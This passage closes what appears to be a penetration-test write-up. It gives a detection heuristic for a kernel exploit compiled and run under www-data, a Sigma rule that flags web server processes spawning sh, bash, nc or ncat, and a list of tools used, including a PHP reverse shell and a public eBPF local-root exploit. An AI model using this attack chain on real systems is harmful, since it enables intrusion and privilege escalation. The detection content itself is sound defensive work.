- **Kernel exploit compile-and-run:** `gcc`/`cc1` and then an unexpected ELF binary being
  executed, both with `www-data` as the parent process, followed by a privilege change to
  `uid=0` inside the same process tree, is a high-fidelity signal regardless of which specific
  kernel CVE is in play.

A minimal Sigma rule for the reverse-shell spawn (syntax-checked only, never run against real
logs):

```yaml
title: Web Server Process Spawning a Shell
status: experimental
description: Detects a web server worker process (e.g. www-data/apache/nginx) spawning an
    interactive shell, consistent with a web shell or injected reverse shell.
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        ParentImage|endswith:
            - '/apache2'
            - '/php-fpm'
            - '/httpd'
        Image|endswith:
            - '/sh'
            - '/bash'
            - '/nc'
            - '/ncat'
    condition: selection
falsepositives:
    - Legitimate CGI scripts that shell out (rare, should be allow-listed by path)
level: high
```

## Tools used

nmap, gobuster, joomscan, sqlmap, a public bcrypt hash-lookup service, the pentestmonkey
`php-reverse-shell.php`, netcat, the public eBPF `bpf(BPF_PROG_LOAD)` double-`fdput()` local-root
exploit (EDB-39772) and gcc to build it.
